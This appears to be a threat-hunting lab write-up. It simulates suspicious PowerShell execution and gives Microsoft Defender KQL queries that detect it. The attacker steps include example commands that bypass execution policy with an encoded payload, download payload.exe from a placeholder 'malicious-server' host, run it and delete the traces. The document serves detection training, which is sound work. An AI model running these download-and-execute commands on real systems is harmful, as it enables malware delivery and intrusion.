# Threat Event (Suspicious PowerShell Usage)
**Suspicious PowerShell Script Execution**

## Steps the "Bad Actor" Took Create Logs and IoCs:
1. Launch PowerShell in a suspicious manner (e.g., via `wininit.exe`, `cmd.exe`, or another indirect method).
2. Execute encoded commands using `-encodedCommand` or download malicious scripts from external sources.
   - Example command: `powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand <Base64EncodedPayload>`
3. Download malicious payload from a remote server using `Invoke-WebRequest` or `Invoke-Expression`.
   - Example command: `Invoke-WebRequest -Uri http://malicious-server/payload.exe -OutFile "payload.exe"`
4. Execute the downloaded payload.
   - Example: `Start-Process -FilePath "payload.exe"`
5. Delete any traces of the activity, including removing the downloaded payload.

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents                                                            |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose**| Used to detect execution of suspicious PowerShell commands (e.g., `powershell.exe -encodedCommand`). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents                                                           |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table |
| **Purpose**| Used to detect suspicious network activity, including communication with external servers that may host malicious payloads. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents                                                              |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose**| Used to detect file activity, such as the creation and deletion of files associated with the attack (e.g., payload.exe). |

---

## Related Queries:
```kql
// PowerShell execution with encoded command
DeviceProcessEvents
| where FileName == "powershell.exe" and ProcessCommandLine contains "-encodedCommand"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// PowerShell executed using indirect methods (e.g., cmd.exe or wininit.exe)
DeviceProcessEvents
| where FileName in~ ("cmd.exe", "wininit.exe") and ProcessCommandLine contains "powershell"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// Suspicious network activity (downloading payload)
DeviceNetworkEvents
| where InitiatingProcessFileName == "powershell.exe" and RemoteUrl contains "malicious-server"
| project Timestamp, DeviceName, RemoteIP, RemoteUrl, RemotePort

// Detect payload download attempt using Invoke-WebRequest
DeviceProcessEvents
| where ProcessCommandLine contains "Invoke-WebRequest" and ProcessCommandLine contains "payload.exe"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Deletion of suspicious files (e.g., payload.exe)
DeviceFileEvents
| where FileName == "payload.exe" and ActionType == "Deleted"
| project Timestamp, DeviceName, FileName, ActionType
```
